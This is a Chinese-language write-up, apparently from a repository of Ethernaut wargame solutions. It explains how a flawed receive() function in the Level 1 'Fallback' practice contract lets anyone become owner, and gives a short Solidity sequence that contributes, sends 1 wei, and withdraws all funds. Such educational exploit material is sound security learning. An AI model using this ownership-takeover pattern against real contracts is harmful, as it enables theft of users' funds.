 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/1-fallback.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 1 - Fallback</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Solutions | Level 1 - Fallback](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目标是拿到这个合约的控制权，转出所有余额
<img src="../imgs/requirements/1-fallback-requirements.webp" width="800px"/>

## 漏洞

转出余额，直接调用 `withdraw` 函数，但是效用此函数受限于 `onlyOwner`，所以根源就是如何获取 `owner` 权限；仔细阅读合约，我们发现`receive` 函数中，可以重新设置 `owner` ； `receive` 函数，当合约在接收eth，且没有任何calldata的情况下，才会调用 `receive` 函数。  

```javascript
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

现在，我们只需弄清楚如何通过 `receive` 函数条件检测 —— `require` 即可。第一条件相当简单，我们只需要发送任意数量的ETH。第二条件要求我们首先调用 `contribute()` ，这样我们的余额就大于0。于是，我们就成为合约的新owner。  

## 解答

1. 首先调用 `contribute` 函数发送一些eth，以满足 `receive()` 函数中 `contributions[msg.sender] > 0` 的条件
2. 直接向合约发送一些eth来触发 `receive()` 函数
3. 提取所有资金

```javascript
        // send the minimum amount to become a contributor
        instance.contribute{value: 0.0001 ether}();

        // send directly to the contract 1 wei, this will allow us to become the new owner
        (bool sent, ) = address(instance).call{value: 1 wei}("");
        require(sent, "Failed to send Ether to the Fallback");
        // now that we are the owner of the contract withdraw all the funds
        instance.withdraw();
```

## 要点

- `receive` 和 `fallback` 函数的用法
- 永远不要在 `fallback/receive` 函数中实现关键逻辑

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>